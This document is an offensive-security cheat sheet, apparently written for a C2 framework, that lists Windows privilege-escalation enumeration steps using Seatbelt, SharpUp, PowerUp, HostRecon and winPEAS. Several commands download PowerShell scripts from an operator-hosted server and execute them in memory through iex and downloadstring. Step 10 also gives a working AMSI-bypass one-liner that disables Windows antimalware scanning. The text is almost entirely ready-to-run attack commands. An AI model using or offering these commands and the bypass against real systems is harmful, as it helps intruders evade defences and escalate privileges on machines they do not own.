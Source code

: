 # PrivEsc Checks

### 1) Check privs - using BOF or with execute

    sa-whoami
    execute -o whoami /all

### 2) Enumerate Permissions

    seatbelt -- -group=all
    seatbelt -- -group=user

### 3) Run SharpUp to audit

    sharpup -- audit
    sharpup -i -- audit

### 4) Run PowerUp

    sharpsh -t 40 -- '-u http://10.10.10.11/powershell-scripts/PowerUp.ps1 -c "Invoke-AllChecks"'

### 5) # We can modify a service, check Get-ServiceAcl what we can modify/create

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/Get-ServiceAcl.ps1 -c "Get-ServiceAcl -Name SNMPTRAP | select -expand Access"'

### 6) Check Registry for autologon

    reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"

### 7) HostRecon

    sharpsh -t 200 -- '-u http://10.10.10.11/powershell-scripts/HostRecon.ps1 -c "Invoke-HostRecon"'

### 8) Footholder-V3.ps1

    sharpsh -t 200 -- '-u http://10.10.10.11/powershell-scripts/Footholder-V3.ps1 -c 1'

### 9) winPEAS - 400 secs wait - better to do interactively

    sharpsh -t 400 -- '-u http://10.10.10.11/powershell-scripts/winPEAS.ps1 -c 1'

### 10) Winpeas - With oneliner AMSI bypass

    shell
    $a=[Ref].Assembly.GetTypes();Foreach($b in $a) {if ($b.Name -like "*iUtils") {$c=$b}};$d=$c.GetFields('NonPublic,Static');Foreach($e in $d) {if ($e.Name -like "*Context") {$f=$e}};$g=$f.GetValue($null);[IntPtr]$ptr=$g;[Int32[]]$buf = @(0);[System.Runtime.InteropServices.Marshal]::Copy($buf, 0, $ptr, 1) 
    iex((new-object system.net.webclient).downloadstring('http://10.10.10.11/powershell-scripts/winPEAS.ps1'))

### 11) Load within powershell itself (when required)

    powershell -ep bypass
    iex((new-object system.net.webclient).downloadstring('http://10.10.10.11/powershell-scripts/PowerUp.ps1'))
    Invoke-AllChecks

